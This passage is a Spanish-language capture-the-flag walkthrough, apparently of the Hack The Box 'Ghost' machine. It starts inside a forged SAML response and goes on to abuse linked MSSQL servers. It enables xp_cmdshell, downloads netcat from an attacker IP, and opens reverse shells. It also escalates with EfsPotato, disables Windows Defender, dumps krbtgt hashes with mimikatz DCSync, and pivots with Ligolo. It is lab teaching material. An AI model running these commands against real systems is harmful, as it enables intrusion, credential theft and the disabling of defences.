jwvc2FtbHA6U3RhdHVzPjxBc3NlcnRpb24geG1sbnM9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDphc3NlcnRpb24iIElEPSJfQ0VNMjlYIiBJc3N1ZUluc3RhbnQ9IjIwMjUtMDMtMzFUMTU6NTE6MTkuMDAwWiIgVmVyc2lvbj0iMi4wIj48SXNzdWVyPmh0dHA6Ly9jb3JlLmdob3N0Lmh0Yi9hZGZzL3NlcnZpY2VzL3RydXN0PC9Jc3N1ZXI%2BPGRzOlNpZ25hdHVyZSB4bWxuczpkcz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC8wOS94bWxkc2lnIyI%2BPGRzOlNpZ25lZEluZm8%2BPGRzOkNhbm9uaWNhbGl6YXRpb25NZXRob2QgQWxnb3JpdGhtPSJodHRwOi8vd3d3LnczLm9yZy8yMDAxLzEwL3htbC1leGMtYzE0biMiLz48ZHM6U2lnbmF0dXJlTWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8wNC94bWxkc2lnLW1vcmUjcnNhLXNoYTI1NiIvPjxkczpSZWZlcmVuY2UgVVJJPSIjX0NFTTI5WCI%2BPGRzOlRyYW5zZm9ybXM%2BPGRzOlRyYW5zZm9ybSBBbGdvcml0aG09Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvMDkveG1sZHNpZyNlbnZlbG9wZWQtc2lnbmF0dXJlIi8%2BPGRzOlRyYW5zZm9ybSBBbGdvcml0aG09Imh0dHA6Ly93d3cudzMub3JnLzIwMDEvMTAveG1sLWV4Yy1jMTRuIyIvPjwvZHM6VHJhbnNmb3Jtcz48ZHM6RGlnZXN0TWV0aG9kIEFsZ29yaXRobT0iaHR0cDovL3d3dy53My5vcmcvMjAwMS8wNC94bWxlbmMjc2hhMjU2Ii8%2BPGRzOkRpZ2VzdFZhbHVlPi9JRWRvQkU3ZkJKMjVJQmVzSzJiL2FWRnFVeGdpSHNhZWF4VzBVK2E1L3c9PC9kczpEaWdlc3RWYWx1ZT48L2RzOlJlZmVyZW5jZT48L2RzOlNpZ25lZEluZm8%2BPGRzOlNpZ25hdHVyZVZhbHVlPmtxTzZnamVvaHFYYW1hMzFrMHJQMGJxNVdNYjlvaENjbTVjU04wVi85VGpJVGYvS1l0WE9SQ1dvOURueDBLNXk2ZzdrS3RtZno4NXNTR21tZmRVSVJCVlFQTG9maHkyRXlyS21YQTYxUkIvRGVXeXRCUitGNFU0SFdTU1REQUdLRWdJckNsL3QxQVp4Z1JRODIreUp6V29ibGZwZGNsdUlyTExXZy9xbTZROXQ0REJFdlRFYlNVWnVwbkxTMFh5aTFUSFZkKzFhVlJJYndJVC94S2FveXhMeDJkcG0ra2VwQm5VZ0g2RzdJT0ZwQUxaMVhyeXZRRTZqQmpwZnoxbHdyTHYybGt6NTg4M202ZllobmdkNDlkY0ZMbVFpUmJDSUVOdnVGYmZSLzZUZXM4SFNUem5FRXBvM1U1cG15YjVXZDF0dHEyeTA0c1FtSHBPQUNXbnlDZ0lRMnAvSGU1dmp4OU1RSThGbUwvbEIrdmE5Zm52VFo5VjhtTlZreUdwWm44amZkRVgrMXM3TlFlczcwSysrWGZWcFlNOWM5ZDc4NmwwNWp5K0ZnaVhjMm1waUg4OVFQNkNhc2RZdW8vSThiRG1NZTVGc25jSWh5cEl2bEl1MlhGWlRqSDlRVFNDSTdFa2JsdVBTQzl6RnFUVWdkVWdqY0RicVJTdUNYSXF1STF0WVdsYjYxRU9EOVNVSkh1Vm9wWGVwc1E1VHZTZWQ2UlNwWllFbzBUSGMyeHFBTmhWSW9LOVpsZDJyYlAwSnErK1didCttRytKSXNOamFsb0o2M0kwSXZseVIvN2xCdXM4KzhNRGhya28wYk9Gbm10R1dLbVR4cWh2YVIwNHFPYkNDWVYwL2E5TnprMU9Ea0RkT2FUZHE2MnFNNmg0ZWptVUpiWFhuelNRPTwvZHM6U2lnbmF0dXJlVmFsdWU%2BPGRzOktleUluZm8%2BPGRzOlg1MDlEYXRhPjxkczpYNTA5Q2VydGlmaWNhdGU%2BTUlJRTVqQ0NBczZnQXdJQkFnSVFKRmNXd015YlJhNU80K1dPNXRXb0dUQU5CZ2txaGtpRzl3MEJBUXNGQURBdU1Td3dLZ1lEVlFRREV5TkJSRVpUSUZOcFoyNXBibWNnTFNCbVpXUmxjbUYwYVc5dUxtZG9iM04wTG1oMFlqQWdGdzB5TkRBMk1UZ3hOakUzTVRCYUdBOHlNVEEwTURVek1ERTJNVGN4TUZvd0xqRXNNQ29HQTFVRUF4TWpRVVJHVXlCVGFXZHVhVzVuSUMwZ1ptVmtaWEpoZEdsdmJpNW5hRzl6ZEM1b2RHSXdnZ0lpTUEwR0NTcUdTSWIzRFFFQkFRVUFBNElDRHdBd2dnSUtBb0lDQVFDK0FBT0lmRXF0bFljbjE1M0wxQnZHUWdEeVhUbll3VFJ6c0s1OSt6RTF6Z0dLTzlONW5iOEZrK2RhS3BXTFFhaUg3b0RIYWVudy9RYXhCZzVxZGVEWW1EM296OEt5YUExeWdZQnJ6bTR3VzdGZjg3cks5RmU1SjUvaDZXOWc3NDloNUJJcVBRT3AwbDZzMXJmdW1PY2NONHliVzk1RVdOTDB2dVFYdkMrS1E0RDRnTVh1OG1DR3B4dHZJTDhpbE50SnVJRzNPUllTS2hSYWwweXlKZU9oRzR4Z2xyWkpGMThwOXdobkU2b21nZ21BNm4yc2hEay90dlRZamlpNWU3L2ljV1RLa3JzTUNwYUtVTms3bXhkTVpoUWFiN1NtZktyWk40cFJEN2RWZzV6ekl5RDdVelM5Q0hMQzZ4TnpxL1owaHVhT2FKaE9TZEpTZ2F0L2JzRzhuYngxOUhELyt5cFc5SjJMdE5GdWdkV3RtVUJXRE9RQllWaEI4U2c0VkVHZ1A5anlJdEhIMmJ6c0RmalJkSjhFMXVOSldQL2tRQTErd1lsT2RkTHFVM2IwSXNDdmxBOEV2WVcwVDFSc3U3N280eC93MGdXYjBvUVBFSXo3ejk3M2I0OTZ3cVF0M0RueWZlTzNsWFhmWk5jdmFqNUtDUDJUdEdCK0tzaEY5cGtJUHhxN0YyZ01oN1FqeGpSSHNBMjlWOGpGbzlnTEQ3a1BWaWNhSVVkc2dpRkhuWVFGMTRhNTJKdFIxVjVpTitoOTVKa3V1RXFRV0RCSEF2UEVCQlprRVpIKzV5VCthQ0ZYWFgrQnBQdDNRR2pZTGVKVThDRnNNdG44UVZMWXZMZGNWUnNVblJoL1dIaVh3Sk9PRVZFQ2E5dzcveVZuaGFsQ05CeDFFL2w0S1FJREFRQUJNQTBHQ1NxR1NJYjNEUUVCQ3dVQUE0SUNBUUFXWUtaVzNjRENCTzZkVDN5ZmwzT2N1eXAxTFZLVkkrOXBGeC9iYldwV2pTZGg2YjM5TFR4eEQ3RllVdGh1V1BaM3JGNEcrRmRNRkhIQ3gzWXBFbVVGbkVMS3NYcWhaOTg5QVg1OEkvM21iZlVsS1dlSVBMU0xrcCtlUlpvTUprdDdrMS9LWHREYXNPUW4wTnNnWUVvd0xCSW1NQ011OXV1am5DbUZPd0hQL0lCaGdZUU1IaDQ2QnpTWFdQM2k4VlhiclJ0RHBvL2MvL09GSmhHbW5uRjhaUG1pNHh0emZTREJwVktxd1ZMcDc4Q2d1TXhqUWQrYmRVYjQ1NTg4Wko0Q0xzUGRSUXAzMFdKMS9DTklhZW52Sld0QTJHNUladzVVMEVXQ0pMb1lKV0ZzOWl5T2ExL3k1NXJ1VzZKOGxJR0Qwd21vRWVDbDlDSDFFZDRkelVkVVhmMU1CQ1lQM1g5MmlheHpVRTB1cEdkLzFRbzZIVHl5T2xXdUF3cmtUMlZIRUxLVlpLT2c4K2RseTk3Z3laSWZVdFF3SWtQd05sOHZvMDRjZmoraHpPdkJ6UEtBQVloMTROTGd2ZUFJL0RxTW5PME9LTyt3MUhCS3c2NE5CQ244Z29hekYrUHVGZlVPMHlOSEZMNGt4TXBjYXA2aWV2NmczQlhDU0R3ZnFUVU9FdUVzN3E5b1lLZ3EycW5OVk9USWhoSW5NWEJ6RW02aVAxM2pmdU9vWEpkUEFuRVVYbjR5NXl3QTk3cnRiR25aRVB5eDFmMUVrWC9oYnFCUDR2b2d2OWtsdGFVRUVWWGtTK2hQcHhabWV4Q05yQkQxcTdHSi81MGViWWxDMENldjh3Nk1zOHRNME9ydnBwR1lsV3J0UHdldkV2ZmlSa3dCTEc3RU1BbkxTdz09PC9kczpYNTA5Q2VydGlmaWNhdGU%2BPC9kczpYNTA5RGF0YT48L2RzOktleUluZm8%2BPC9kczpTaWduYXR1cmU%2BPFN1YmplY3Q%2BPE5hbWVJRCBGb3JtYXQ9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjEuMTpuYW1laWQtZm9ybWF0OmVtYWlsQWRkcmVzcyI%2BQWRtaW5pc3RyYXRvckBnaG9zdC5odGI8L05hbWVJRD48U3ViamVjdENvbmZpcm1hdGlvbiBNZXRob2Q9InVybjpvYXNpczpuYW1lczp0YzpTQU1MOjIuMDpjbTpiZWFyZXIiPjxTdWJqZWN0Q29uZmlybWF0aW9uRGF0YSBOb3RPbk9yQWZ0ZXI9IjIwMjUtMDMtMzFUMTU6NTY6MTkuMDAwWiIgUmVjaXBpZW50PSJodHRwczovL2NvcmUuZ2hvc3QuaHRiOjg0NDMvYWRmcy9zYW1sL3Bvc3RSZXNwb25zZSIvPjwvU3ViamVjdENvbmZpcm1hdGlvbj48L1N1YmplY3Q%2BPENvbmRpdGlvbnMgTm90QmVmb3JlPSIyMDI1LTAzLTMxVDE1OjUxOjE5LjAwMFoiIE5vdE9uT3JBZnRlcj0iMjAyNS0wMy0zMVQxNjo1MToxOS4wMDBaIj48QXVkaWVuY2VSZXN0cmljdGlvbj48QXVkaWVuY2U%2BaHR0cHM6Ly9jb3JlLmdob3N0Lmh0Yjo4NDQzPC9BdWRpZW5jZT48L0F1ZGllbmNlUmVzdHJpY3Rpb24%2BPC9Db25kaXRpb25zPjxBdHRyaWJ1dGVTdGF0ZW1lbnQ%2BPEF0dHJpYnV0ZSBOYW1lPSJodHRwOi8vc2NoZW1hcy54bWxzb2FwLm9yZy93cy8yMDA1LzA1L2lkZW50aXR5L2NsYWltcy91cG4iPjxBdHRyaWJ1dGVWYWx1ZT5BZG1pbmlzdHJhdG9yQGdob3N0Lmh0YjwvQXR0cmlidXRlVmFsdWU%2BPC9BdHRyaWJ1dGU%2BPEF0dHJpYnV0ZSBOYW1lPSJodHRwOi8vc2NoZW1hcy54bWxzb2FwLm9yZy9jbGFpbXMvQ29tbW9uTmFtZSI%2BPEF0dHJpYnV0ZVZhbHVlPkFkbWluaXN0cmF0b3I8L0F0dHJpYnV0ZVZhbHVlPjwvQXR0cmlidXRlPjwvQXR0cmlidXRlU3RhdGVtZW50PjxBdXRoblN0YXRlbWVudCBBdXRobkluc3RhbnQ9IjIwMjUtMDMtMzFUMTU6NTE6MTguNTAwWiIgU2Vzc2lvbkluZGV4PSJfQ0VNMjlYIj48QXV0aG5Db250ZXh0PjxBdXRobkNvbnRleHRDbGFzc1JlZj51cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6YWM6Y2xhc3NlczpQYXNzd29yZFByb3RlY3RlZFRyYW5zcG9ydDwvQXV0aG5Db250ZXh0Q2xhc3NSZWY%2BPC9BdXRobkNvbnRleHQ%2BPC9BdXRoblN0YXRlbWVudD48L0Fzc2VydGlvbj48L3NhbWxwOlJlc3BvbnNlPg%3D%3D
```

Lo único que tenemos que modificar es **GET** a **POST**
Copiar esto: `Content-Type: application/x-www-form-urlencoded`
Por último copiar todo el churro que nos dio la herramienta **ADFSpoof.py** dentro de la variable **SAMLResponse**. **IMPORTANTE**, hacerlo siempre de logearse en la redirección que nos manda esta página `https://core.ghost.htb:8443/`, en el caso que no salga, volverlo a intentar desde principio.

#### BBDD

##### Enumeración

```
https://core.ghost.htb:8443/
```

<p align="center">

</p>

El comando **`EXEC sp_linkedservers;`  se utiliza para **listar todos los servidores vinculados (_Linked Servers_)** configurados en la instancia de base de datos a la que te has conectado. Que son **DC01** y **PRIMARY**

```
EXEC sp_linkedservers;
```

```
Output:

{
    "recordsets": [
        [
            {
                "SRV_NAME": "DC01",
                "SRV_PROVIDERNAME": "SQLNCLI",
                "SRV_PRODUCT": "SQL Server",
                "SRV_DATASOURCE": "DC01",
                "SRV_PROVIDERSTRING": null,
                "SRV_LOCATION": null,
                "SRV_CAT": null
            },
            {
                "SRV_NAME": "PRIMARY",
                "SRV_PROVIDERNAME": "SQLNCLI",
                "SRV_PRODUCT": "SQL Server",
                "SRV_DATASOURCE": "PRIMARY",
                "SRV_PROVIDERSTRING": null,
                "SRV_LOCATION": null,
                "SRV_CAT": null
            }
        ]
    ],
    "recordset": [
        {
            "SRV_NAME": "DC01",
            "SRV_PROVIDERNAME": "SQLNCLI",
            "SRV_PRODUCT": "SQL Server",
            "SRV_DATASOURCE": "DC01",
            "SRV_PROVIDERSTRING": null,
            "SRV_LOCATION": null,
            "SRV_CAT": null
        },
        {
            "SRV_NAME": "PRIMARY",
            "SRV_PROVIDERNAME": "SQLNCLI",
            "SRV_PRODUCT": "SQL Server",
            "SRV_DATASOURCE": "PRIMARY",
            "SRV_PROVIDERSTRING": null,
            "SRV_LOCATION": null,
            "SRV_CAT": null
        }
    ],
    "output": {},
    "rowsAffected": [
        2
    ]
}
```

Este comando **SELECT SYSTEM_USER;** Nos Dice quienes somos **web_client**

```
{
    "recordsets": [
        [
            {
                "": "web_client"
            }
        ]
    ],
    "recordset": [
        {
            "": "web_client"
        }
    ],
    "output": {},
    "rowsAffected": [
        1
    ]
}
```

Este comando le dice a un servidor de base de datos remoto (llamado `PRIMARY`) que use los privilegios del superusuario `sa` para cambiar las configuraciones internas y activar **`xp_cmdshell`**, una función especial de Microsoft SQL Server. Al activar esta función, el sistema permite ejecutar comandos directamente en la consola de comandos (CMD o PowerShell) del servidor de Windows subyacente, lo que técnicamente convierte el acceso a la base de datos en ejecución de código a nivel de sistema operativo (RCE).

```
EXECUTE('EXECUTE AS LOGIN=''sa''; exec sp_configure "show advanced options", 1; RECONFIGURE; exec sp_configure "xp_cmdshell", 1; reconfigure;') AT [PRIMARY]
```

```
{
    "recordsets": [],
    "output": {},
    "rowsAffected": []
}
```

Antes se daba error este comando, pero ya si funciona

```
EXECUTE('EXECUTE AS LOGIN=''sa''; exec xp_cmdshell "whoami"') AT [PRIMARY]
```

```
{
    "recordsets": [
        [
            {
                "output": "nt service\\mssqlserver"
            },
            {
                "output": null
            }
        ]
    ],
    "recordset": [
        {
            "output": "nt service\\mssqlserver"
        },
        {
            "output": null
        }
    ],
    "output": {},
    "rowsAffected": [
        2
    ]
}
```

Por tanto el comando anterior realizó con éxito su cometido. Es decir, habilitarme la función **xp_cmdshell**. Además de heredar los permisos administrativo del usuario **sa**. En este repo descargamos el [nc64](https://github.com/vinsworldcom/NetCat64/releases)

En mi kali:

```
python3 -m http.server 80
```

En la bbdd:

```
EXECUTE('EXECUTE AS LOGIN=''sa''; exec xp_cmdshell "powershell -c iwr http://10.10.14.188/nc64.exe -outfile C:\programdata\nc64.exe"') AT [PRIMARY]
```

```
{
    "recordsets": [
        [
            {
                "output": null
            }
        ]
    ],
    "recordset": [
        {
            "output": null
        }
    ],
    "output": {},
    "rowsAffected": [
        1
    ]
}
```

Eso significa que se subió, en mi máquina preparo el puerto de escucha

```
sudo rlwrap -cAr nc -lvnp 4445
```

Luego, en la bbdd realizo el siguiente comando:

```
EXECUTE('EXECUTE AS LOGIN=''sa''; exec xp_cmdshell "C:\programdata\nc64.exe 10.10.14.188 4445 -e powershell"') AT [PRIMARY]
```

<p align="center">

</p>

### SHELL como SISTEMA en PRINCIPAL

#### Enumeración

```
whoami /priv
```

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Sin duda el permiso que más me llama la atención es **SeImpersonatePrivilege**

#### Potato

[Potato](https://github.com/zcgonvh/EfsPotato/blob/master/EfsPotato.cs)

```
python3 -m http.server 80  
```

```
wget http://10.10.14.188/EfsPotato.cs -UseBasicParsing -OutFile EfsPotato.cs
```

```
C:\Windows\Microsoft.net\framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618
```

<p align="center">

</p>

```
.\EfsPotato.exe 'whoami'
```

<p align="center">

</p>

```
rlwrap -cAr nc -lnvp 4449
```

```
.\EfsPotato.exe '\programdata\nc64.exe 10.10.14.188 4449 -e powershell'
```

<p align="center">

</p>

### Shell como Administrador

#### Enumeración

```
systeminfo
```

`systeminfo`muestra que este host forma parte del `corp.ghost.htb`dominio:

```
Host Name:                 PRIMARY
OS Name:                   Microsoft Windows Server 2022 Datacenter
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00454-70295-72962-AA521
Original Install Date:     1/30/2024, 7:27:30 PM
System Boot Time:          8/4/2026, 9:21:48 AM
System Manufacturer:       Microsoft Corporation
System Model:              Virtual Machine
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Microsoft Corporation Hyper-V UEFI Release v4.1, 12/3/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     881 MB
Available Physical Memory: 135 MB
Virtual Memory: Max Size:  1,777 MB
Virtual Memory: Available: 483 MB
Virtual Memory: In Use:    1,294 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    corp.ghost.htb
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Microsoft Hyper-V Network Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.0.0.10
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Tiene la IP **10.0.0.10**, **PRIMARY** es el controlador de dominio para este dominio:

```
Get-ADDomainController
```

```
ComputerObjectDN           : CN=PRIMARY,OU=Domain Controllers,DC=corp,DC=ghost,DC=htb
DefaultPartition           : DC=corp,DC=ghost,DC=htb
Domain                     : corp.ghost.htb
Enabled                    : True
Forest                     : ghost.htb
HostName                   : PRIMARY.corp.ghost.htb
InvocationId               : 34c6785f-058a-4d29-82a2-8a3f118c5595
IPv4Address                : 10.0.0.10
IPv6Address                : ::1
IsGlobalCatalog            : True
IsReadOnly                 : False
LdapPort                   : 389
Name                       : PRIMARY
NTDSSettingsObjectDN       : CN=NTDS Settings,CN=PRIMARY,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuratio
                             n,DC=ghost,DC=htb
OperatingSystem            : Windows Server 2022 Datacenter
OperatingSystemHotfix      : 
OperatingSystemServicePack : 
OperatingSystemVersion     : 10.0 (20348)
OperationMasterRoles       : {PDCEmulator, RIDMaster, InfrastructureMaster}
Partitions                 : {DC=DomainDnsZones,DC=corp,DC=ghost,DC=htb, DC=corp,DC=ghost,DC=htb, 
                             DC=ForestDnsZones,DC=ghost,DC=htb, CN=Schema,CN=Configuration,DC=ghost,DC=htb...}
ServerObjectDN             : CN=PRIMARY,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=ghost,DC=htb
ServerObjectGuid           : e9f296c1-3f55-473b-b8fd-d5ac6be967d7
Site                       : Default-First-Site-Name
SslPort                    : 636
```

Puedo consultar la relación de dominio con más detalle usando **Bloodhound**. (Retomo la sesión que tenía activada)

<p align="center">

</p>

La imagen muestra una relación de confianza de Active Directory en **BloodHound** entre los dominios **`GHOST.HTB`** y **`CORP.GHOST.HTB`**

- **`SameForestTrust` (Mismo Bosque):** Indica que ambos dominios pertenecen al **mismo bosque** (_Forest_) de Active Directory. En este caso, `CORP.GHOST.HTB` es un subdominio o dominio secundario dentro del bosque principal.

- **Confianza Bidireccional (Flechas en ambos sentidos):** Existe una relación de confianza en dos vías (_Two-Way Trust_). Esto significa que las entidades (usuarios, grupos, equipos) de `GHOST.HTB` pueden ser autenticadas para acceder a recursos en `CORP.GHOST.HTB`, y viceversa.

- **Límite de Seguridad:** En Active Directory, el **verdadero límite de seguridad es el Bosque**, no los dominios individuales. Al estar en el mismo bosque bajo una relación `SameForestTrust`, comprometer el control total de un dominio (como `Domain Admin`) usualmente permite saltar al otro dominio dentro del mismo bosque (por ejemplo, mediante la explotación de _SID History_ o _Enterprise Admins_).

#### Golden Ticket

```
python3 -m http.server 8089
```

```
wget http://10.10.14.188:8089/mimikatz.exe -UseBasicParsing -OutFile m.exe
```

<p align="center">

</p>

Antes de lanzar el comando tendremos que desactivar el **Defender** de Windows, sólo lo podemos llevar acabo si somos una cuenta **admin**

```
Set-MpPreference -DisableRealtimeMonitoring $true 

Set-MpPreference -DisableIOAVProtection $true
```

Ejecutamos mimikatz

```
.\m.exe 'lsadump::dcsync /user:CN=krbtgt,CN=Users,DC=corp,DC=ghost,DC=htb' exit 
```

```
SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 1/31/2024 7:34:01 PM
Object Security ID   : S-1-5-21-2034262909-2733679486-179904498-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 69eb46aa347a8c68edb99be2725403ab
    ntlm- 0: 69eb46aa347a8c68edb99be2725403ab
    lm  - 0: fceff261045c75c4d7f6895de975f6cb

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4acd753922f1e79069fd95d67874be4c

* Primary:Kerberos-Newer-Keys *
    Default Salt : CORP.GHOST.HTBkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d
      aes128_hmac       (4096) : ea18711cfd69feef0c8efba75bca9235
      des_cbc_md5       (4096) : b3e070025110ce1f

* Primary:Kerberos *
    Default Salt : CORP.GHOST.HTBkrbtgt
    Credentials
      des_cbc_md5       : b3e070025110ce1f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  673e591f1e8395d5bf9069b7ddd084d6
    02  1344e8aade9169b015f2ca4ddf8a04bd
    03  021a6b424b5372ef3511673b04647862
    04  673e591f1e8395d5bf9069b7ddd084d6
    05  1344e8aade9169b015f2ca4ddf8a04bd
    06  122def4643832d604a97c9c02e29cb38
    07  673e591f1e8395d5bf9069b7ddd084d6
    08  2526b041b761a9ae973e69ee23d8ab97
    09  2526b041b761a9ae973e69ee23d8ab97
    10  43c410fd94dc2ca31c3d12cd76ea5e5c
    11  b51d328dbb94b922331d54ffd54134d5
    12  2526b041b761a9ae973e69ee23d8ab97
    13  99c658551700bb8b4dbe0503acade3cb
    14  b51d328dbb94b922331d54ffd54134d5
    15  8a1e17a5a2aa32b2120a39ba99881020
    16  8a1e17a5a2aa32b2120a39ba99881020
    17  9ebecd6b439ee2e7847819e54be70d8f
    18  ff83c6eb25c8da26d5332aeeaeae4cb8
    19  2ee6795b19f71e9c5aa2ab2f902a0c55
    20  3722d9593e0e483720a657bcb56526b2
    21  7bdac8f5dfed431bc7232ff1ca6ebb4d
    22  7bdac8f5dfed431bc7232ff1ca6ebb4d
    23  42b46cd4462f0d4c4ae5da7757a2ff90
    24  7648ab0ac431ceada83b321ca468fccf
    25  7648ab0ac431ceada83b321ca468fccf
    26  7af11e3e17a21afd61955ed5a5f52405
    27  9dfbb554b398bdf2e8c51e1b20208c08
    28  49a35ae4b703b7c47b44708fa235c581
    29  8a24eb5a1a3155556064b79149b00211
```

Obtendremos el `Domain SID` del dominio `CORP.GHOST.HTB` a través de `BloodHound`.


También obtendremos el `SID` del grupo `Enterprise Admins` del dominio `GHOST.HTB`.


#### Ligolo

Se descarga aquí --> [Ligolo](https://github.com/nicocha30/ligolo-ng/releases) Para la máquina objetivo **ligolo-ng_agent_0.9_windows_amd64.zip** para Linux descargaremos **ligolo-ng_proxy_0.9_linux_amd64.tar.gz**

**Máquina atacante**

```
sudo ip tuntap add user dani mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 10.0.0.0/24 dev ligolo
sudo ./proxy -selfcert
```

**Máquina objetivo**

```
wget http://10.10.14.188/agent.exe -UseBasicParsing -OutFile agent.exe
./agent -connect 10.10.14.188:11601 -ignore-cert
```

Luego en mi maquina atacante

```
session
1
start 
```

<p align="center">
